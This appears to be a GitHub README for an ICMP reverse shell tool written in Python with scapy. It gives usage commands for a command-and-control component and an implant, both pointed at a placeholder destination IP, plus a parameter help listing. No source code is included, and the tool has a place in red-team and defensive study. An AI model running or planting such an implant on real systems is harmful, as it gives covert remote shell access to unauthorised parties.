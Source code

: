 # ICMP Reverse Shell
ICMP reverse shell written in Python3 and scapy. Tested on Ubuntu 20.04, Debian 10 (Kali Linux), and Windows 10. Read [this article](https://cryptsus.com/blog/icmp-reverse-shell.html) for more information.

Python version (both Windows and Linux):
```bash
./icmp-cnc.py -i INTERFACE -d DESTINATION_IP (Command and Control)
./icmpdoor.py -i INTERFACE -d DESTINATION_IP (Implant)
```

Widows binary version:
```bash
./icmp-cnc.exe -d DESTINATION_IP (Command and Control)
./icmpdoor.exe -d DESTINATION_IP (Implant)
```

Parameters details:
```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  ```
# Screenshots
![screen1](https://cryptsus.com/blog/icmp-reverse-shell-linux.jpg 269)
![screen2](https://cryptsus.com/blog/icmp-reverse-shell-windows.jpg 269)

# License
Berkeley Software Distribution (BSD)

# Author
[Jeroen van Kessel](https://twitter.com/jeroenvkessel) | [cryptsus.com](https://cryptsus.com) - we craft cyber security solutions
